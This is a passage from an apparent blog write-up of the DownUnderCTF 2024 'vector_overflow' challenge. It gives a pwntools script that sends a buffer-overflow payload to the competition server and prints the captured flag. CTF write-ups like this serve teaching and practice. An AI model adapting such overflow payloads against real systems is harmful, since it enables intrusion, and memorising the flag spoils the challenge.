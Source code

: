 ![20-5](/assets/posts/DownUnderCTF/20-5.png)

Since, we already know the size of the buffer, we move on to finding the memory address of the buffer , which is `0x4051e0` . Well the, now comes the most important part, scripting the exploit and sending it to the server. 

This is done through `Pwntools`. It’s so useful so many things. Check it out at.

[Pwntools](https://github.com/Gallopsled/pwntools)

```bash
from pwn import *

# p = process('./vector_overflow')
p = remote('2024.ductf.dev', 30013)
p.sendline(b'DUCTF' + b'A' * 11 + p64(0x4051e0) + p64(0x4051e5))
p.interactive()
```

Flag: `DUCTF{y0u_pwn3d_th4t_vect0r!!}`

This is how I felt after the challenge.

<img src="/assets/posts/DownUnderCTF/22.png" alt="p4" width="70%"/>

## References

[Checksec](https://medium.com/@slimm609/checksec-d4131dff0fca)

[High level explanation on some binary executable security](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)

[DownUnderCTF 2024 Write-Up · Ouuan's blog](https://ouuan.moe/post/2024/07/ductf-2024#yawa-184-solves)

[Identify security properties on Linux using checksec](https://opensource.com/article/21/6/linux-checksec)

[GDB Command Reference - Index page](https://visualgdb.com/gdbreference/commands/)

![Continue](/assets/posts/PrivEscalation/continue.jpg)